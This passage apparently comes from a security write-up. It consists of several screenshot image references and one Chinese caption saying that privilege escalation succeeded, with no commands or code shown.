

提权成功
